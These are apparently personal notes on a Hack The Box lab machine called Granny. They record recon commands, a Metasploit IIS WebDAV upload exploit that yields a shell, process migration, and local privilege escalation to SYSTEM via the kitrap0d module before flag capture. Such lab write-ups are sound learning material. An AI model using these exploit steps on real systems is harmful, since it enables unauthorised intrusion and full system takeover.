 ping 10.10.10.15
whatweb 10.10.10.15

echo "10.10.10.15 grany.htb" >> /etc/hosts
access site -> basic static page

namp granny.htb

msfocnsole
use windows/iis/iis_webdav_upload_asp
set lhost, lport and rhost
run

cd c:/
cd "Documents and Settings"
cd Lakis -> Operation failed: Access is denied.

ps -> find NETWORK PRIVILEGES
migrate <pid>

getuid -> NETWORK PRIVILEGES
background

metasploit privilege escalation (https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
use windows/local/ms10_015_kitrap0d
set lport, lhost and session
run

getuid -> SYSTEM PRIVILEGES
cd "Documents and Settings"

get flags